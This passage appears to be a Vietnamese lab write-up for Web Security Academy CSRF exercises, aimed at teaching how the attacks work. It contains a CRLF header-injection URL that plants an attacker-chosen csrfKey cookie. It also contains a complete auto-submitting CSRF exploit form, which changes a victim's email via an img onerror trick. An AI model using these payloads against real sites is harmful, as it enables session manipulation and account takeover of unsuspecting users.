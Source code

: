 #### Find cookie insertion point from client
- Quay lại tab trình duyệt ban đầu (đã đăng nhập tài khoản A).
- Gửi một truy vấn tìm kiếm (search).
- Quan sát thấy nội dung tìm kiếm bị phản hồi lại trong header:
```http
HTTP/2 200 OK
Set-Cookie: LastSearchTerm=abc; Secure; HttpOnly
Content-Type: text/html; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 3419
```

**Ý tưởng:** định dạng chuỗi tìm kiếm một cách khéo léo, có thể ép server gửi **Set-Cookie** độc hại về trình duyệt nạn nhân.

#### Create URL to inject cookie into victim browser
```
"/?search=abc%0d%0aSet-Cookie:%20csrfKey=YOUR-KEY%3b..."
```

- `%0d%0a (\r\n)` là kí tự xuống dòng trong HTTP header.
- Chuỗi `/search?...` sẽ ép server phản hồi:
```http
HTTP/2 200 OK
Set-Cookie: LastSearchTerm=abc
Set-Cookie: csrfKey=sL7zNuuRkOfaT3LTlOCT2GkNLa8QKzYK;SameSite=None; Secure; HttpOnly
```

Khi người dùng truy cập vào URL này, trình duyệt sẽ lưu lại cookie csrfKey do kẻ tấn công chỉ định.

#### Create and host an exploit to automatically send CSRF requests
- Đến request `change email` tạo mã khai thác CSRF
- Lấy **token** tại **response** của `/my-account`
```html
    <form action="https://0a9300f203c2f67c809c037400ce0063.web-security-academy.net/my-account/change-email" method="POST">
        <input type="hidden" name="csrf" value="ubbY8fvXWI9r55sxmIbPGZXN1fXcOMW1">
        <input type="hidden" name="email" value="evil@gmail.com">
        <img src="https://0a9300f203c2f67c809c037400ce0063.web-security-academy.net/?search=test%0d%0aSet-Cookie:%20csrfKey=WKT3HORZFW74kJQyzwoD3zk0w3d0g0eK%3b%20SameSite=None" onerror="document.forms[0].submit()">    
    </form>
```
- Thay vì gửi ngay `(<script>form.submit()</script>)`, chèn một thẻ ảnh để tiêm cookie trước:
- Đến **Exploit Server**
- Dán mã khai thác vào body 
- Deliver to victim

### Lab: CSRF where token is duplicated in cookie
#### Analysis
Là một cách đơn giản để bảo vệ khỏi CSRF mà:
- Server không lưu trữ **CSRF token (stateless)**.
- Khi người dùng đăng nhập, ứng dụng:
    - Sinh ra một **CSRF token**.
    - Gửi token này vào **cookie** (ví dụ: csrf=abc123).
- Đồng thời, mỗi request (ví dụ: POST đổi email) phải đính kèm token trong body hoặc header (ví dụ: csrf=abc123 trong request body).
- Nếu hai giá trị này trùng nhau, server chấp nhận request.
